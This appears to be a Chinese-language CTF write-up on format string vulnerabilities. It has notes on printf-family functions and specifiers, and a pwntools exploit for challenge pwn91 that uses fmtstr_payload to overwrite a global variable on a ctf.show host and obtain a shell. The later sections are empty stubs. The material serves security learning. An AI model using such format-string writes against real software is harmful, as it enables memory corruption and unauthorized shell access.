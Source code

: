 ## 格式化字符串

### 格式化输出的函数：

printf：输出流位stdout

fprintf：按照格式化字符串将其输出写入流中，三个参数位流，格式化字符，变参列表

sprintf：输出不是写入流 是写入数组，在写入字符串尾部必须要一个空字符串

snprinf：指定可写入字符的最大值size，超过部分会被舍弃，不切会在字符串末尾加入一个空字符

dprintf：输出是一个文件描述符fd

vfprintf，vprintf，vsprintf，vsnprintf，vdprintf：



| 指示符 |  类型  |       输出       |
| :----: | :----: | :--------------: |
|   %d   | 4 byte |     Integer      |
|   %u   | 4byte  | Unsigned Integer |
|   %x   | 4byte  |       Hex        |
|   %s   | 4byte  |      String      |
|   %c   | 1byte  |    Character     |

| 长度 | 类型  |     输出      |
| :--: | :---: | :-----------: |
|  hh  | 1byte |     char      |
|  h   | 2byte |   short int   |
|  l   | 4byte |   long int    |
|  ll  | 8byte | long long int |



---

### pwn91

![image-20241120142222307](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241120142222307.png)

这里发现栈保护因此我们这里需要的扔到ida中看看

![image-20241120142346067](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241120142346067.png)

这里需要把daniu等于6就可以得到一个shell因此我们这里就要看看漏洞程序![image-20241120142606495](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241120142606495.png)

可以看到这里的ptintf(s)明显的存在格式化字符串漏洞，第一次接触，不知道为啥这里就存在漏洞？别急 后面会逐步讲解。 首先将数组s初始化为0，清除数组中的内容，然后读取0x50的数据到字符数组s中。 printf(s); 使用用户输入的内容作为格式字符串，进行 printf 输出。这里存在格式字符串漏洞 我们可以先简单尝试一下，先正常输入字符，看起来没有问题![image-20241120143156147](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241120143156147.png)

因此我们可以使用格式化字符串进行改造

exp：

```python
from pwn import *

# io = process("/home/fofa/pwn")
io = remote("pwn.challenge.ctf.show", 28267)
daniu = 0x0804B038
payload = fmtstr_payload(7,{daniu:6})
io.sendline(payload)
io.interactive()
```

---

### pwn92

![image-20241120145225464](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241120145225464.png)

---

### pwn93


